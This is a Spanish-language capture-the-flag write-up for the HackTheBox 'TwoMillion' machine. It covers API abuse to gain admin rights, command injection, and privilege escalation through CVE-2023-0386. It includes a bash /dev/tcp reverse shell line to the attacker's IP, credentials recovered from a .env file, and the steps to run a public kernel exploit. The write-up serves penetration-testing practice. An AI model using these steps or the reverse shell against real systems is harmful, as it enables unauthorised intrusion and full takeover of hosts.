






## Introduction

TwoMillion es una máquina de la plataforma **[HackTheBox](https://app.hackthebox.com/profile/2035837)**. En esta ocasión nos encontraremos con dos puertos abiertos 22/SSH y 80/HTTP. Obtendremos un codigo de invitación descifrando código encriptado, enumeraremos una API para poder acceder como administrador, inyectaremos una reverse shell, encontraremos una base de datos lo que nos llevara a encontrar usuario y contraseña en un archivo .env y debido a que el Kernel Linux está desactualizado se puede utilizar CVE-2023-0386 para escalar privilegios.

~~~
Platform: HackTheBox
Level: Easy
OS: Linux
~~~

## Reconnaissance 

Inicialmente, usamos el comando **Ping**. Este utiliza el **ICMP (Protocolo de Control de Mensajes de Internet)**. Específicamente, **Ping** envía un mensaje de “echo request” a una **dirección IP** y espera recibir un mensaje de “echo response” en respuesta. Este proceso nos permite verificar si una máquina en la red es accesible y medir el tiempo que tarda en recibir una respuesta (conocido como latencia). Ademas, podemos inferir que es una máquina **Linux** debido al **Time To Leave** (**ttl**) que en este caso es **63** (si fuese en su lugar **128** o un número cercano a este, sería una máquina **Windows**)

## Scanning

Como vemos, el paquete fue recibido por la máquina victima. Una vez verificada la conexión, empezamos a realizar un escaneo de multiples etapas con la herramienta **Nmap**. Primero, haremos un escaneo de puertos abiertos

Vemos que tenemos los puertos **22/SSH** y **80/HTTP**. Procedemos a hacer un escaneo más detallado de los mismos con el fin de obtener más información. Esto lo haremos con la flag `-sCV`

## Enumeration

##### 22/SSH

La versión del puerto 22 que ejecuta el servicio SSH es **OpenSSH 8.9p1**, no encontramos ninguna vulnerabilidad para está versión de momento.

##### 80/HTTP

Por lo visto, el puerto 80 ejecuta HTTP, un servidor web **nginx**. Haremos uso de **whatweb** para obtener más información acerca del sitio web. Como vemos, nos reporta el estado **301 Moved Permanently** el cual nos indica que el recurso solicitado ha sido trasladado de manera permanente a una nueva URL: **2million.htb/** además notamos que informa un error al dirigirse al sitio **ERROR Opening: http:// 2.million.htb/ - no adress for 2million.htb**

Tal error se soluciona añadiendo el sitio al **/etc/hosts**

Primero indicamos la **dIrección IP** y luego el **dominio**. 

Hecho esto ya podriamos ingresar a la web: Vemos que es un sitio para practicas de pentesting con laboratorios.

Al navegar por la misma notamos que los unicos elementos con los cuales es posible interactuar son las secciones **join** y **login**

Al tocar el boton de **Join HTB** de la sección nos redirige a un panel donde es necesario un **codigo de invitación** para poder registrarse

Al realizar `CTRL + U` para poder ver el codigo fuente notamos que hay código en **JavaScript** que al parecer es  el funcionamiento del panel del codigo de invitación. Además notamos que en **scripts** hay un **path** interesante: **/js/inviteapi.min.js** por lo que parece es el funcionamiento de la **API** de invitación por código

Al ingresar el **path** a la URL nos redirige a código ofuscado, vemos lo que parecen ser las funciones declaradas para que la **API** pueda funcionar correctamente. Entre ellas hay una que nos llama la atención: **makeInviteCode**

Al llamar a **makeInviteCode** por la consola del navegador nos confirma que si, es una función

Al declararla con **makeInviteCode()** vemos la pista: **"Data is encrypted... we should probably check the encryption type in order to decrypt it"** 

Data: **"Va beqre gb trarengr gur vaivgr pbqr, znxr n CBFG erdhrfg gb /ncv/i1/vaivgr/trarengr**
Enctype: **"ROT13"**

Al descifrar la data nos dice: **In order to generate the invite code, make a POST request to /api/v1/invite/generate** 

Al hacer **POST request** con **curl** a **http:// 2million/api/v1/invite/generate** nos da el código al final encriptado en **base64**

Al descifrar el código en **base64** obtenemos el **código de invitación** para poder registrarnos

Verificamos si el código es el correcto al colocarlo en la página 

Rellenamos el formulario para poder ingresar correctamente

Al ingresar correctamente vemos varias secciones

La que más llama la atención es la sección de **Acces** la cual nos permite generar una **VPN** vemos que hay dos botones: **Connection Pack** y **Regenerate**

Al ver el código fuente de estos dos botones notamos que son funciones de la **API** 

Usamos **Burpsuit** para interceptar las peticiones

Al ver las respuestas de la petición **api/v1/user/vpn/generate** vemos que utiliza el método **GET** y que efectivamente nos genera una **VPN**

Al hacer una petición con el método **GET** a **/api/v1** vemos el **endpoint** de la **API**

Nos llama la atención **admin** y por lo vemos tiene la función de autenticar si un usuario es **admin**. Haremos una petición **GET** al path **api/v1/admin/auth** con el fin de autenticarnos.

Nos da como respuesta **"message": false** por lo que no somos **admin**. Intentaremos hacer una petición con el método **PUT** al path **/api/v1/admin/settings/update** que al parecer tiene la función de actualizar la configuración de un usuario en específico

Nos informa que **"message": "Invalid content type"** por lo que inferimos es por el tipo de formato no especificado. Agregamos la línea **Content-Type: application/json** en la petición

Ahora nos dice **"message": "Missing parameter: email"** por lo que falta el parametro de email, agregamos el correo que colocamos a la hora de registrarnos en formato **Json** 

Ahora dice **"message": "Missing parameter: is_admin"** creo que el parametro es para indicar si el usuario tiene privilegios de administrador. Lo verificamos haciendo una nueva petición con el método **GET** a **/api/v1/admin/auth** colocando un **0** y como vemos nos dice **"message": false** por lo que no tenemos permisos de administrador

Siguiendo esta lógica al colocar **"is_admin": 1** tendriamos que tener permisos de administrador

Al verificarlo haciendo una petición con el método **GET** a **/api/v1/admin/auth** nos da **"message": true** por lo que ya tenemos permisos de administrador

Al ver el **endpoint** de la **API** notamos que es posible generar una **VPN** con permisos de administrador mediante el método **POST** a **/api/v1/admin/vpn/generate** al hacerlo nos dice que falta el parametro de **username**

Al colocar el parametro **username** y mandar la petición notamos que funciono correctamente generando asi la **VPN** con permisos de administrador

## Exploitation

Intentamos **inyectar código** desde el campo de username y notamos que funciona, por lo que podriamos optar por ejecutar una **reverse shell** para conectarnos desde nuestra máquina.

Primero nos ponemos en escucha con **Netcat** al puerto que utilizaremos en la **reverse shell**

Utilizare esta **reverse shell**: `bash -c 'bash -i >&/dev/tcp/10.10.14.165/1717 0>&1';` 

Al estar en escucha y ejecutar la **reverse shell** obtenemos acceso al sistema como **www-data**

En primer lugar, realizamos **tratamiento de la tty** 

Una vez hecho el **tratamiento de la tty** listamos archivos y directorios en el directorio actual, encontramos una base de datos **Database.php** y la abrimos con **cat**

Notamos que las primeras lineas nos indican:

~~~
private $host;
private $user;
private $pass;
private $dbname;
~~~

Por lo que inferimos que la base de datos está diseñada para conectarse a un sistema de gestión de bases de datos (**DBMS**) tales como **MySQL, PostgreSQL, SQLite,** etc. Los valores podrian estar almacenados en archivos de configuración o variables de entorno. Para encontrarlos listamos los archivos ocultos del directorio actual y encontramos el archivo **.env** el cual se utiliza para definir variables de entorno.

Al mostrar el contenido del archivo vemos los valores. Encontramos el usuario y la contraseña

Username: **admin**
Password: **SuperDuperPass123**

Recordemos que teníamos el **puerto 22/SSH** abierto por lo que intentaremos acceder mediante estas credenciales al servicio SSH del objetivo.

Al ingresar notamos algo interesante el mensaje **"You have mail"** nos informa que tenemos un mensaje. Intentaremos encontrar la ruta donde se úbica el mensaje mediante el comando `find / -iname mail` pero como vemos nos sale muchisima información, esto debido a que nos muestra también las rutas a las que no tenemos acceso **"Permission denied"** 

Al filtrar los resultados con `| grep -v "proc"` observamos la ruta **/var/mail** 

## Privilege Escalation

Al acceder a la misma listamos el contenido y encontramos un archivo **admin**, al mostrar el contenido con **cat** vemos el mensaje del cual nos habían informado al ingresar. El mensaje dice que se debe actualizar el sistema operativo debido a que en la versión del **kernel de linux** en la que se encuentran hay una vulnerabilidad, nos dan una pista de esta vulnerabilidad al mencionar **OverlayFS / FUSE** 

Al buscar "**OverlayFS / Fuse vulnerability**" en Google nos encontramos con el **[CVE-2023-0386](https://ubuntu.com/security/CVE-2023-0386)** la cual afecta las versiones de **Ubuntu 22.04** 

Al verificar la versión del sistema del objetivo notamos que es **Ubuntu 22.04.2** por lo cual esta vulnerabilidad es posible que funcione

Clonamos el repositorio de Github de **[Xkaneiki](https://github.com/xkaneiki/CVE-2023-0386/tree/main)** 

Entramos a la carpeta del repositorio y desde dentro comprimimos el contenido con   `tar -czvf CVE-2023-0386.tar.gz .`

Una vez comprimido el repositorio lo transfiero a la máquina objetivo con **scp**

Una vez con el repositorio en la máquina objetivo lo descomprimimos con **tar** nuevamente para poder utilizarlo

Con todo esto hecho podemos ejecutar el exploit

Como nos indica el repositorio primero debemos compilar el contenido, esto lo hacemos con `make all` 

Una vez ejecutado el comando `make all` que compila el exploit, nos indica que debemos ejecutar `./fuse ./ovlcap/lower ./gc `

Por último, nos indica que ejecutamos `./exp` en otra terminal diferente pero en la misma ubicación en la que se encuentra el exploit desde la máquina victima

Como vemos somos **root**, tenemos control total del sistema y por ende hemos finalizado la máquina.

 